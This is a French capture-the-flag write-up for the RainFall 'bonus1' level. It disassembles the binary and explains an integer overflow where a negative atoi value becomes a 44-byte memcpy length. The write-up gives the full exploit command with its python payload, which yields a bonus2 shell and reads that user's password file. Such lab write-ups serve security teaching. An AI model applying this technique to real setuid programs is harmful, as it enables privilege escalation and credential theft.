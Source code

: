 En desassemblant le binaire, on voit qu'il ya plusieurs verification dans le code avant d'atteindre le execl de "/bin/sh".

Il y a tout d'abord le atoi qui verifie si av[1] est inferieur à 10
```gdb
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
```

La valeur de retour de atoi est multiplié par 4 et ensuite elle est utilisé dans le memcpy pour copier le contenu de av[2] dans la string s déclaré au début du main

```gdb
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:	add    eax,0x8
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:	mov    edx,eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
```
La valeur de retour de atoi est ensuite comparer a 0x574f4c46 est si c'est égal on accede au shell avec les doits de bonus2

```gdb
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
```

Ici il faut contourner atoi mais aussi memcpy afin d'ecrire dans r qui est la valeur de retour de atoi * 4.

Pour ça on passe un nombre négatif qui va passer la premiere vérification qui ensuite sera multiplié par 4 pour être utilisé par memcpy.
Vu que  atoi stock dans un int on peux utilisé la notion de retour a zero des variables signé pour tomber sur 44 une fois r multiplié par 4.

Après de multiples recherche on tombe sur -1073741813

s == 40 + r == 4 == 44

40 * 'B' + '0x574f4c46' pour override r et le faire correspondre avec la derniere condition avant le execl
```gdb
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
```

```bash
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
...
...
```

